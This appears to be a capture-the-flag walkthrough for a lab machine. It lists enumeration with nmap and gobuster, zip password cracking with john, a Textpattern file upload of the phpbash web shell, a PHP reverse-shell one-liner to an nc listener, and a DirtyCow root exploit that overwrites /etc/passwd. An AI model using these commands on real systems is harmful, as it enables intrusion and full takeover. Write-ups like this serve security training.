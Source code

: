 # Capture The Flag Challenge 1

## Description

Capture The Flag.

## Sources

```
Explore and discover possible vulnerabilities of the machine to gain access and capture the Flags.
```

## Exploit

Begin by enumerating the IP. Using `nmap` we discover that port 80 is exposed.

Access the Website and by exploring it, discover that robots.txt contains a hint for the next step.

Using `gobuster` fuzz for files with .zip extensions.
 
```
sudo gobuster dir -u http://<website_ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```

We find a zip archive, after downloading and trying to open it, we discover its password protected, so we need to crack it using `john (the ripper)`.

```
sudo zip2john ./spammer.zip > hash 
sudo john hash --fork=4 -w=/path/to/rockyou.txt
```

We get the credentials "mayer:lionheart". Now login to textpattern.

By exploring the site, we discover the ability to upload a file, so we uploaded phpbash.

+ [phpbash.php](https://github.com/Arrexel/phpbash/blob/master/phpbash.php)

To execute that file go to “/textpattern/files/phpbash.php”

Now that we have a shell we could use it as is or start a reverse shell.

On your machine run the following command:

```
nc -lvp 4242
```

On the shell we just gained access to execute:

```
php -r '$sock=fsockopen("<host_ip>",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

Seeing the kernel version we can search for exploits.

```
cat /proc/version
```

Using the `Exploit-DB`, we discover that there are multiple exploits for this kernel version. 

We'll be using the following one:

+ [Exploit](https://www.exploit-db.com/exploits/40839)

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.

The user will be prompted for the new password when the binary is run.

The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.

Upload the exploit and execute it:

```
gcc -pthread 40839.c -o exploit -lcrypt

exploit
```

After running the exploit you should be able to login with the newly created user.

```
python -c 'import pty; pty.spawn("/bin/bash")'

su firefart
```

You're root now.